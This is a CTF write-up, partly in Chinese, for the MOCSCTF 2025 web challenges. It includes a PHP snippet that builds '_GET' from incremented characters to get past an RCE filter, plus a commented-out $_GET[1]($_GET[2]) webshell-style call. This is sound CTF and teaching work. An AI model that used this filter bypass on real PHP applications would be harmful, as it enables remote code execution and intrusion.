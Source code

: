 ```yaml
---
title: Mocsctf2025 Wp
published: 2025-07-17
pinned: false
description: Mocsctf2025 crypto Wp
tags: ['crypto']
category: CTF-crypto
licenseName: "MIT"
author: zsm
draft: false
date: 2025-07-17
pubDate: 2025-07-17
---
```



## 前言

澳门的一个比赛，奖品比较好，就冲了xd，复盘一下，后面会补题

## web

### shuke-beita

这个真的是签到了xd，f12进去可以看见一行`(document.body.innerHTML = "请关闭开发者工具以继续使用本网站")`，我们比较叛逆，直接打开，然后运行游戏抓个包，f12里面就看见flag了，无敌了

### ez-rce

不算特别难，抓包得到`<!-- /s3cret/rce.php -->`，进去尝试rce即可，过滤了很多东西，打自增绕过，详细分析看[这个](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

字符更少的版本
```
$_=[].'_'; //空数组拼接一个字符，会将空数组变成字符串Array
$__=$_[1];//$__是r
$_=$_[0];//$_这时是A
$_++;//$_这时是B，每++一次就是下一个字母
$_++;//C
$_0=$_;//把c给$_0
$_++;//D
$_++;//E
$_++;//F
$_++;//G
$_=$_0.++$_.$__;//$_=CHr
$_='_'.$_(71).$_(69).$_(84);//$_='_'.CHR(71).CHR(69).CHR(84) -> $_=_GET
//$$_[1]($$_[2]);//$_GET[1]($_GET[2])
echo $_;
#_GET
```
